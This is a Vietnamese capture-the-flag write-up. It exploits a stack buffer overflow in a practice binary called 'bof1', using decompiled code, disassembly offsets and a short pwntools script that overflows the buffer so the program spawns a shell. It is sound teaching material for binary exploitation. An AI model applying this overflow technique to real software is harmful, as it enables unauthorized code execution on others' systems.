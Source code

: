 **1. Tìm lỗi**

Chạy thử file ta được:

![run.png](photo/run.png)

Dùng lệnh 'file' kiểm tra:

```
bof1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5074553c3715a233fb2abab13a64491c3c7e1a3b, for GNU/Linux 3.2.0, not stripped
```

--> Mở bằng IDA64 ta được:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[16]; // [rsp+0h] [rbp-30h] BYREF
  __int64 v5; // [rsp+10h] [rbp-20h]
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  int v8; // [rsp+2Ch] [rbp-4h]

  v8 = 0;
  v7 = 0LL;
  v6 = 0LL;
  v5 = 0LL;
  init(argc, argv, envp);
  printf("> ");
  v8 = read(0, buf, 0x30uLL);
  if ( buf[v8 - 1] == 10 )
    buf[v8 - 1] = 0;
  printf("a = %ld\n", v7);
  printf("b = %ld\n", v6);
  printf("c = %ld\n", v5);
  if ( v7 && v6 && v5 )
    system("/bin/sh");
  return 0;
}
```

Đoạn mã khai báo một mảng buf có kích thước 16 byte và các biến v5, v6, v7 và v8. Biến v8 được khởi tạo bằng 0 và các biến còn lại được khởi tạo bằng 0.

Hàm read được gọi để đọc dữ liệu từ bàn phím và lưu trữ vào mảng buf. Tham số đầu tiên là số tham chiếu đến bàn phím (0), tham số thứ hai là mảng buf và tham số thứ ba là kích thước tối đa của dữ liệu được đọc (0x30uLL = 48 byte) mà biến buf được khai báo 16 byte nên có lỗi bof.

Nếu ký tự cuối cùng trong chuỗi được nhập là ký tự xuống dòng (10), nó sẽ được thay thế bằng ký tự NULL (0).

Nếu các biến v5, v6 và v7 đều khác 0, hàm system được gọi để thực thi.

**2. Ý tưởng**

Nhập tràn biến buf gồm 16 byte rác sau đó thay đổi giá trị biến v5, v6, v7 trên đó sao cho khác 0 để thực hiện system.

**3. Khai thác**

```
0x0000000000401223 <+70>:    lea    rax,[rbp-0x30]
0x0000000000401227 <+74>:    mov    edx,0x30
0x000000000040122c <+79>:    mov    rsi,rax
0x000000000040122f <+82>:    mov    edi,0x0
0x0000000000401234 <+87>:    call   0x4010a0 <read@plt>
``

Biến buf cách rbp là 0x30.

```
   0x00000000004012a2 <+197>:   cmp    QWORD PTR [rbp-0x10],0x0
   0x00000000004012a7 <+202>:   je     0x4012c3 <main+230>
   0x00000000004012a9 <+204>:   cmp    QWORD PTR [rbp-0x18],0x0
   0x00000000004012ae <+209>:   je     0x4012c3 <main+230>
   0x00000000004012b0 <+211>:   cmp    QWORD PTR [rbp-0x20],0x0
   0x00000000004012b5 <+216>:   je     0x4012c3 <main+230>
```

Các biến v5, v6, v7 cách rbp là: 0x20, 0x18, 0x10. Tính làm gì rồi cũng nhập cho nó khác 0 nên nhập tràn từ buf đến rbp là chắc chắn được.

Ta có script như sau:

```
from pwn import *

r = process('./bof1')

payload = b'a'*0x30
r.sendafter(b'> ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
